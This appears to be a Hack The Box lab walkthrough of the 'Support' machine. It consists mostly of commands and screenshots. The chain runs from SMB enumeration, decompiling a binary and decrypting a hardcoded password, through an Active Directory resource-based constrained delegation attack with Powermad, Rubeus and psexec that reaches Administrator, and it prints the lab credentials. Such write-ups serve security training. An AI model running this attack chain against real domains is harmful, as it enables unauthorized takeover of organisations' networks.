 ![image](https://github.com/regarmulia/HTB/assets/33616880/e4ddfec3-a99b-4b8a-9b9b-590cd649863a)```
nmap -sS -sC -sV -T5 -Pn 10.10.11.174
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c513fb68-50d1-41b4-8934-27824a4ed58e)

```
smbclient -L \\\\10.10.11.174\\
smbclient \\\\10.10.11.174\\support-tools
```
![image](https://github.com/regarmulia/HTB/assets/33616880/71fa0c96-fe56-4321-851b-d46f6b8f8795)

```
unzip UserInfo.exe.zip
cat UserInfo.exe.config
```
![image](https://github.com/regarmulia/HTB/assets/33616880/98094d02-a256-46d6-9bf1-f38c289f4c73)


```
wget https://github.com/icsharpcode/AvaloniaILSpy/releases/download/v7.2-rc/Linux.x64.Release.zip
unzip Linux.x64.Release.zip
unzip ILSpy-linux-x64-Release.zip
cd artifacts/linux-arm64
sudo ./ILSpy
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c25352b4-a0c5-4d1c-bd87-6b71045eee0f)

```
import base64
from itertools import cycle

enc_password = base64.b64decode("0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E")
key = b"armando"
key2 = 223

res = ''
for e,k in zip(enc_password, cycle(key)):
        res += chr(e ^ k ^ key2)

print(res)
```
```
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```
![image](https://github.com/regarmulia/HTB/assets/33616880/2b3ae44c-1a69-4e82-92c3-0ffaac79088c)


```
wget https://dlcdn.apache.org/directory/studio/2.0.0.v20210717-M17/ApacheDirectoryStudio-2.0.0.v20210717-M17-linux.gtk.x86_64.tar.gz
tar -xf ApacheDirectoryStudio-2.0.0.v20210717-M17-linux.gtk.x86_64.tar.gz
./ApacheDirectoryStudio
Ironside47pleasure40Watchful
```
![image](https://github.com/regarmulia/HTB/assets/33616880/875c3cc4-807f-429a-8bb9-8b8e08ac724e)


```
evil-winrm -u support -p 'Ironside47pleasure40Watchful' -i support.htb
```
![image](https://github.com/regarmulia/HTB/assets/33616880/f0f57e9e-b8fc-4d4d-b8ac-3a129655c56f)


```
Get-ADDomain
echo '10.10.11.174 dc.support.htb' | sudo tee -a /etc/hosts
whoami /groups
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1f8391b0-f0b9-4bac-ac66-73d102f2e7df)


```
sudo neo4j start
/opt/BloodHound/BloodHound-linux-x64 ./BloodHound --no-sandbox

upload SharpHound.exe
./SharpHound.exe
download 20240514001541_BloodHound.zip
```
![image](https://github.com/regarmulia/HTB/assets/33616880/3a94dd19-bd0e-46f4-8099-c5e90c3cb25b)

![image](https://github.com/regarmulia/HTB/assets/33616880/91ef72f1-2187-471b-9c81-94bebd11c9d6)

![image](https://github.com/regarmulia/HTB/assets/33616880/e6e064fc-121f-4fe9-b1c8-2202bedd5815)


```
Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DS-MachineAccountQuota
upload PowerView.ps1
. ./PowerView.ps1
Get-DomainComputer DC | select name, msds-allowedtoactonbehalfofotheridentity
```
![image](https://github.com/regarmulia/HTB/assets/33616880/3d6b600f-4598-4175-bd67-5112eda8a285)


```
git clone https://github.com/Kevin-Robertson/Powermad.git
upload Powermad.ps1
. ./Powermad.ps1
New-MachineAccount -MachineAccount FAKE-COMP01 -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force)
Get-ADComputer -identity FAKE-COMP01
```
![image](https://github.com/regarmulia/HTB/assets/33616880/df2e4c56-b5f0-4166-8893-5f314a1ddd96)


```
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount FAKE-COMP01$
Get-ADComputer -Identity DC -Properties PrincipalsAllowedToDelegateToAccount
Get-DomainComputer DC | select msds-allowedtoactonbehalfofotheridentity
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ef2757a0-de07-432e-9a48-9a27e403cc85)


```
upload Rubeus.exe
.\Rubeus.exe hash /password:Password123 /user:FAKE-COMP01$ /domain:support.htb
58A478135A93AC3BF058A5EA0E8FDB71
.\Rubeus.exe s4u /user:FAKE-COMP01$ /rc4:58A478135A93AC3BF058A5EA0E8FDB71 /impersonateuser:Administrator /msdsspn:cifs/dc.support.htb /domain:support.htb /ptt
https://www.browserling.com/tools/remove-all-whitespace
base64 -d ticket.kirbi.b64 > ticket.kirbi
locate ticketConverter.py
./ticketConverter.py ticket.kirbi ticket.ccache
locate psexec.py
KRB5CCNAME=ticket.ccache ./psexec.py support.htb/administrator@dc.support.htb -k -no-pass
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c7d86351-2afa-4ba9-a89f-33e93dbd0ad5)

![image](https://github.com/regarmulia/HTB/assets/33616880/ae871fd3-7dd0-4315-aac9-3859e1180ef7)
